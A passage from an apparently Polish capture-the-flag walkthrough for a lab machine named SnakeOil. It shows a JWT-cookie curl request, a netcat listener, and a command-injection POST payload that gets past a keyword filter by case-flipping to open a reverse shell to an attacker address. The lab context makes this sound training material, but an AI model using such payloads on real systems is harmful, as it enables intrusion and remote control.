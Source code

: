![xcp](/assets/images/hacking/2021/10/08.png)

Wynika z tego, że musimy podać klucz w ciasteczku (jak to zabrzmiało :smiley: ) i wysłać na serwer:
{: .text-justify}
```bash
# root@kali:/home/szikers# curl --cookie "access_token_cookie=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTczNDE4NywianRpIjoiZjU4NDNhMmUtOTYzOC00NTFlLTg2NDktOTczMGQzNGUzZmUwIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InNuYWNrb2lsIiwibmJmIjoxNjMxNzM0MTg3LCJleHAiOjE2MzE3MzUwODd9.18oenH8p5IsRYLes02qLICWh_wAYXvCxaVib_H-hbmQ"  http://172.16.1.141:8080/secret
{"ip-address": "", "secret_key": "commandexecutionissecret"}
```
### Burp Suite
Mamy nasz sekretny klucz. Parametr **"url"** jest podatny na **command injection**. Niestety, nie możemy wrzucić stringów typu: **bash**, **/dev/tcp**, bo dostajemy bana. Skrypt na serwerze od razu filtruje te słowa, ale możemy zrobić coś innego. Wrzucić klucz publiczny **id_rsa.pub** do katalogu **.ssh**, jak to zrobił na filmiku **InfoSecLab**, albo tak przerobić nasz tekst żeby przeszedł filtry. Zrobimy to drugie. Stworzymy **payload**, który się będzie łączył na port **12345**, ale żeby to zadziałało, to najpierw małe litery w naszym ładunku zamienimy na duże, wrzucimy to wszystko do pliku, potem odwrócimy wielkość liter i uruchomimy nasz skrypt. Oczywiście można to inaczej zrobić, żeby zadziałało. Np. zakodować plik do **MD5**, potem odkodować, itd... ale zanim wrzucimy nasz ładunek, trzeba włączyć na naszym serwerze nasłuchiwanie na porcie **12345**.
{: .text-justify}
```bash
# nc -lvp 12345
```
A w naszym nagłówku umieszczamy takie coś:
{: .text-justify}
<pre>
<p style="background-color:white;">
POST /run HTTP/1.1
Host: 172.16.1.141:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 227

{
"url":"--help >/dev/null ; echo '#!/BIN/BASH' >1.sh; echo 'BASH -i > /DEV/TCP/172.16.1.10/12345 0>&1 2>&1' >> 1.sh; tr [:upper:] [:lower:] <1.sh > 2.sh; chmod +x 2.sh; ./2.sh ;",
"secret_key":"commandexecutionissecret"
}
</p>
</pre>

# Koniec
Wysyłamy nagłówek i jesteśmy na **patrick@SNAKEOIL**. Na koniec podpowiem, że interesuje nas plik _flask_blog/app.py_. Tam znajdziecie co trzeba.
{: .text-justify}
Mam nadzieję, że ten tutorial pomógł wam trochę poćwiczyć **JSON** oraz metody **GET** i **POST**.
{: .text-justify}